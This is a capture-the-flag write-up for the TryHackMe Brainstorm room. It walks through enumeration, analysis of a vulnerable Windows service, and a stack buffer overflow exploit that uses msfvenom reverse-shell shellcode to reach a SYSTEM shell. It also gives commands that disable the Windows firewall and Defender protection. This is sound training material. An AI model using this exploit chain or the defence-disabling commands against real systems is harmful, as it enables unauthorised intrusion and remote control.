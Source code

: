 # TryHackMe - Brainstorm

Writeup for the [Brainstorm](https://tryhackme.com/room/brainstorm) room in [TryHackMe](https://tryhackme.com/).

## Setup

Attacker: 
* Kali Linux - IPs: 10.2.31.1, 10.9.0.117
* Windows 10 VM - IP: 10.2.31.155

Target: 
* Windows, IP 10.10.144.220

## Exploitation steps

1. [Target enumeration](#Target-enumeration)
1. [Binary exploration](#Binary-exploration)
1. [Buffer overflow exploit](#Buffer-overflow-exploitn)

## Target enumeration

After starting the machine, I began an nmap enumeration:
```
nmap -n -Pn -p- 10.10.144.220
```

The target had some interesting open ports.

Whenever I find FTP or SMB ports I already start some manual exploration while at the same time executing other enumeration tools (enum4linux, nmap --scrip, etc).

Trying to connect to the FTP port (21) anonymously was a success:
```
ftp 10.10.144.220 21
```

Two interesting files were found in a directory and downloaded:
```
mget *
```

These files seemed like they were key to this challenge and I decided to test them in a Windows enviroment. 

I configured a temporary Windows 10 Virtual Machine and installed the following tools:

* Immunity Debugger: https://www.immunityinc.com/products/debugger/
  * Download and follow the default install
* mona.py: https://github.com/corelan/mona
  * Download and copy the file to the 'PyCommands' directory inside the Immunity Debugger install dir (usually is at 'C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands')

I disabled Windows firewall and antivirus so as not to have any problems during the tests:
```
netsh advfirewall set allprofiles state off
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

With the Windows VM setup, it was time to test the binary.

## Binary exploration 

First thing I did was simply to run the application and see what it did.

With the application running, I verified if it had any open ports:
```
tasklist /v | findstr FILENAME.exe
```

```
netstat -ano | findstr 524
```


Nice! The opened port is one of the ports found during the target enumeration. The target is probably running this application.

We can interact both with the target and the Windows VM to find out if they are indeed running the same application:

* Windows VM
```
nc -nv 10.2.31.155 9999
```


* Target
```
nc -nv 10.10.144.220 9999
```


They are probably the same! Now it was time to test for some buffer overflow vulnerabilites.

During my studies I created a somewhat generic Python script to ease this type of test:
* ig-buffer-overflow.py: https://github.com/isabellecda/cyber-scripts/tree/main/buffer-overflow

I used the script in all following steps. Please feel free to reuse it and contribute to it.

First thing was to open the application in the debugger and send some random bytes to it (I sent 10000). In this case I tried to crash the application after the 'user' input, while it was waiting for the write content.
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=9999 --buffsize=10000 --buffhead='' --interact=";;user"
```

Nice! The application crashed. Analysing the debugger we can see that we could overwrite the EIP and that the ESP pointed to some of the content that we sent:



Verifying our memory disposition (right-click on 'ESP' → Follow in Dump), we could see that the application broke at aproximaly 4096 bytes (1000h):



Now it was time to try to find out where in our sent content was the EIP, or, as also known, find out what was the EIP offset. 

I restarted the application on the debugger and sent a cyclic string from my Kali Linux:
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user"
```


The application crashed with EIP = 31704330

Using the same script, I could now find where in the string I could set the EIP:
```
./ig-buffer-overflow.py -m checkoffset --value 31704330 --length=4096
Offset for length 4096: 2012
```

I now had to find the address of an instruction that could jump to the ESP. I used mona.py:
```
!mona jmp -n -r ESP
```


I used the first found address (0x625014df)

Before sending a test shell code, I tested the application for bad chars (I already removed the null byte '00' since this usually crashs memory):
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --badchar=after --exclude=00
```

```
!mona config -set workingfolder c:\temp
!mona bytearray
!mona compare -f c:\temp\bytearray.bin -a 012DEEA8
```


Only '00' was found out as a badchar (since I didn't send it). I could finally test the execution of some shell code.

I generated the payload using msfvenon:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=80 -f hex EXITFUNC=thread -o reverse280
```

I set up a listener on my Kali Linux:
```
sudo rlwrap -a nc -lvnp 80
```

And sent the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.2.31.155 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse280 --nops=12
```



Success! Got the shell. But on my Windows VM.


## Buffer overflow exploit

I now only had to adapt the exploit so that it could run on the target machine.

I regenerated the shell code:
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.9.0.117 LPORT=80 -f hex EXITFUNC=thread -o reverse980
```

Set up a listener:
```
sudo rlwrap -a nc -lvnp 80
```

Executed the exploit:
```
./ig-buffer-overflow.py -m exploit --rhost=10.10.144.220 --rport=9999 --buffsize=4096 --buffhead='' --interact=";;user" --offset=2012 --hexcontent=l625014df --shellcode=reverse980 --nops=12
```

Bingo! Got a privileged user shell (nt authority\system)!

I searched for the file using the following Windows commands and completed the challenge!
```
cd C:\
dir /b/s *root.txt
type "C:\FINDTHEPATH\root.txt"
```

THE END!

Note: I did try to crash the application at the 'user' parameter, but for some reason could not do it. I saw that I could overwrite the EIP in this case, so I'll probably retry this latter.
